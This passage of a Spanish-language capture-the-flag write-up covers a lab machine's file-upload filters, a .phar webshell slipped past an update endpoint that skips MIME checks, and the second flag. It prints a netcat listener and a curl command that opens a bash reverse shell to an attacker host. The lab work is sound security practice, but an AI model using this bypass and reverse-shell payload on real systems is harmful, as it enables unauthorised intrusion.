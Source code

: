 >Lo mandamos al Repeater y vemos la respuesta en mayor detalle.

![[Pasted image 20240121023548.png]]({%link assets/img/securecode/25.png%})

>Si inspeccionamos el archivo newFile.php del código que nos descargamos, tenemos una blacklist de extensiones así como una limitación en el Content-Type del archivo.

![[Pasted image 20240121023848.png]]({%link assets/img/securecode/26.png%})

>Si intentamos bypassearlo cambiando la extensión a `.phar` y el Content-Type a `image/gif`, añadiendo además el file signature de los archivos `.gif` (GIF8;) al principio del archivo, igual no nos dejará subirlo.

![[Pasted image 20240121024142.png]]({%link assets/img/securecode/27.png%})

>Pese a los intentos fallidos, podemos fijarnos en el archivo updateItem.php para la actualización de items previamente subidos a la plataforma con la esperanza de ver menos filtros a la hora de subir nuestro archivo malicioso.

![[Pasted image 20240121024520.png]]({%link assets/img/securecode/28.png%})

>No se están verificando los mime types. Genial. Podemos subir nuestro archivo `.phar` a un item cualquiera.

![[Pasted image 20240121024645.png]]({%link assets/img/securecode/29.png%})

![[Pasted image 20240121024649.png]]({%link assets/img/securecode/30.png%})

>¡Listo! Ahora solo queda ver dónde se está almacenando el archivo.

![[Pasted image 20240121024811.png]]({%link assets/img/securecode/31.png%})

>Dado que podemos ejecutar comandos, nos ponemos en escucha por cualquier puerto en nuestra máquina con `nc -lnvp {PORT}` y hacemos un curl a la página con el siguiente comando:

```shell
> curl -s -X GET "http://$IP/item/image/webshell.phar?cmd=bash -c 'bash -i >%26 /dev/tcp/{HOST}/{PORT} 0>%261'"
```

>Ya ganamos acceso a la máquina. Vemos la segunda flag.

![[Pasted image 20240121025112.png]]({%link assets/img/securecode/32.png%})
